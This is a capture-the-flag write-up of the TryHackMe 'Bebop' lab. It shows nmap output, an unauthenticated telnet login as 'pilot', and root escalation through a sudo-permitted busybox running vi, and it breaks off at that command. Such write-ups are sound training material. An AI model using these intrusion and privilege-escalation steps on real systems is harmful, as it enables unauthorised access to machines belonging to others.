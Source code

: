 # THM: Bebop

| Stat | Value |
| ---------- | -------------------------------------------- |
| Image | <img src="/images/write_ups/try_hack_me/bebop/bebop.jpeg" alt="Bebop" width="90"/> |
| Room | Bebop |
| URL | https://tryhackme.com/room/bebop |
| Difficulty | Easy |

## Concepts/Tools Used

- telnet

## Room Description

Who thought making a flying shell was a good idea?

## Process

Once the machine starts up I save the machine's ip address to my host file so that I can type `target.thm` instead of an ip address.

I run nmap to see what ports are open:

```bash
$ nmap -T4 -n -sC -sV -Pn -v -p- target.thm
Starting Nmap 7.80 ( https://nmap.org ) at 2025-07-22 11:06 BST
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 11:06
Completed NSE at 11:06, 0.00s elapsed
Initiating NSE at 11:06
Completed NSE at 11:06, 0.00s elapsed
Initiating NSE at 11:06
Completed NSE at 11:06, 0.00s elapsed
Initiating ARP Ping Scan at 11:06
Scanning target.thm (10.10.169.138) [1 port]
Completed ARP Ping Scan at 11:06, 0.03s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 11:06
Scanning target.thm (10.10.169.138) [65535 ports]
Discovered open port 23/tcp on 10.10.169.138
Discovered open port 22/tcp on 10.10.169.138
Increasing send delay for 10.10.169.138 from 0 to 5 due to max_successful_tryno increase to 5
SYN Stealth Scan Timing: About 8.82% done; ETC: 11:12 (0:05:21 remaining)
SYN Stealth Scan Timing: About 17.66% done; ETC: 11:12 (0:04:44 remaining)
SYN Stealth Scan Timing: About 26.51% done; ETC: 11:12 (0:04:12 remaining)
SYN Stealth Scan Timing: About 35.34% done; ETC: 11:12 (0:03:41 remaining)
SYN Stealth Scan Timing: About 44.11% done; ETC: 11:12 (0:03:11 remaining)
SYN Stealth Scan Timing: About 52.85% done; ETC: 11:12 (0:02:42 remaining)
SYN Stealth Scan Timing: About 61.40% done; ETC: 11:12 (0:02:13 remaining)
SYN Stealth Scan Timing: About 69.78% done; ETC: 11:12 (0:01:44 remaining)
SYN Stealth Scan Timing: About 78.40% done; ETC: 11:12 (0:01:15 remaining)
SYN Stealth Scan Timing: About 86.77% done; ETC: 11:12 (0:00:46 remaining)
Completed SYN Stealth Scan at 11:12, 346.69s elapsed (65535 total ports)
Initiating Service scan at 11:12
Scanning 2 services on target.thm (10.10.169.138)
Completed Service scan at 11:12, 0.02s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.169.138.
Initiating NSE at 11:12
Completed NSE at 11:12, 7.04s elapsed
Initiating NSE at 11:12
Completed NSE at 11:12, 0.01s elapsed
Initiating NSE at 11:12
Completed NSE at 11:12, 0.00s elapsed
Nmap scan report for target.thm (10.10.169.138)
Host is up (0.00033s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.5 (FreeBSD 20170903; protocol 2.0)
| ssh-hostkey: 
|   2048 5b:e6:85:66:d8:dd:04:f0:71:7a:81:3c:58:ad:0b:b9 (RSA)
|   256 d5:4e:18:45:ba:d4:75:2d:55:2f:fe:c9:1c:db:ce:cb (ECDSA)
|_  256 96:fc:cc:3e:69:00:79:85:14:2a:e4:5f:0d:35:08:d4 (ED25519)
23/tcp open  telnet  BSD-derived telnetd
MAC Address: 02:45:DA:EE:66:E9 (Unknown)
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

NSE: Script Post-scanning.
Initiating NSE at 11:12
Completed NSE at 11:12, 0.00s elapsed
Initiating NSE at 11:12
Completed NSE at 11:12, 0.00s elapsed
Initiating NSE at 11:12
Completed NSE at 11:12, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 355.73 seconds
           Raw packets sent: 66080 (2.908MB) | Rcvd: 65537 (2.621MB)
```

I see from the output that telnet is running on the machine. I ran the following to connect to the machine:

```bash
$ telnet target.thm
Trying 10.10.169.138...
Connected to target.thm.
Escape character is '^]'.
login: pilot
Last login: Sat Oct  5 23:48:53 from cpc147224-roth10-2-0-cust456.17-1.cable.virginm.net
FreeBSD 11.2-STABLE (GENERIC) #0 r345837: Thu Apr  4 02:07:22 UTC 2019

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
Man pages are divided into section depending on topic.  There are 9 different
sections numbered from 1 (General Commands) to 9 (Kernel Developer's Manual).
You can get an introduction to each topic by typing

	man <number> intro

In other words, to get the intro to general commands, type

	man 1 intro
```

Just like that, I have a shell on the machine. I look around to see where the user.txt file is:

```bash
$ whoami
pilot
$ ls
user.txt
$ cat user.txt
REDACTED
```

Now that I have the user.txt flag, I need to escalate my privileges to get the root.txt flag. I run my usual [privilege escalation commands](/concepts/privilege_escalation.md#linux-privilege-escalation) and `sudo -l` has something interesting:

```bash
$ sudo -l
User pilot may run the following commands on freebsd:
    (root) NOPASSWD: /usr/local/bin/busybox
```

I am not too familiar with busybox. I run the command to see what it does:

```bash
$ /usr/local/bin/busybox 
BusyBox v1.30.1 (2019-08-23 13:25:19 UTC) multi-call binary.
BusyBox is copyrighted by many authors between 1998-2015.
Licensed under GPLv2. See source distribution for detailed
copyright notices.

Usage: busybox [function [arguments]...]
   or: busybox --list
   or: function [arguments]...

	BusyBox is a multi-call binary that combines many common Unix
	utilities into a single executable.  Most people will create a
	link to busybox for each function they wish to use and BusyBox
	will act like whatever it was invoked as.

Currently defined functions:
	addgroup, ar, arch, ash, awk, base64, basename, bc, bunzip2, bzcat, bzip2, cal, cat, chgrp, chmod, chown,
	chroot, cksum, clear, cmp, comm, cp, cpio, crond, crontab, cttyhack, cut, dc, dd, delgroup, diff,
	dirname, dnsd, dos2unix, dpkg, dpkg-deb, du, echo, ed, env, expand, expr, factor, fakeidentd, fallocate,
	false, fatattr, find, flock, fold, fsync, ftpd, ftpget, ftpput, getopt, grep, groups, gunzip, gzip, hd,
	head, hexdump, hexedit, hostid, hostname, httpd, id, inetd, install, iostat, ipcalc, kill, killall,
	killall5, klogd, less, link, ln, logger, logname, logread, lpq, lpr, ls, lzcat, lzma, lzop, makemime,
	man, md5sum, microcom, mkdir, mkfifo, mknod, mktemp, more, mpstat, mv, nc, nice, nl, nmeter, nohup,
	nologin, nslookup, ntpd, nuke, od, paste, patch, pgrep, pidof, ping, ping6, pipe_progress, pkill, pmap,
	popmaildir, poweroff, printenv, printf, ps, pscan, pwd, pwdx, readlink, readprofile, realpath, reboot,
	reformime, renice, reset, resize, resume, rev, rm, rmdir, rpm, rpm2cpio, run-parts, scriptreplay, sed,
	sendmail, seq, setsid, sh, sha1sum, sha256sum, sha3sum, sha512sum, shred, shuf, sleep, smemcap, sort,
	split, ssl_client, stat, strings, stty, su, sulogin, sum, svok, sync, syslogd, tail, tar, tee, telnet,
	telnetd, test, tftp, tftpd, timeout, top, touch, tr, traceroute, traceroute6, true, truncate, tty,
	ttysize, uname, uncompress, unexpand, uniq, unix2dos, unlink, unlzma, unxz, unzip, usleep, uudecode,
	uuencode, vi, volname, watch, wc, wget, which, whoami, xargs, xxd, xz, xzcat, yes, zcat
```

So it looks like busybox is a wrapper for other binaries. I know that I can get a shell using vi and that is one of the binaries mentioned. So I run busybox with sudo and have it run vi so I can get a root shell:

```bash
sudo /usr/local/bin/busybox  vi
```
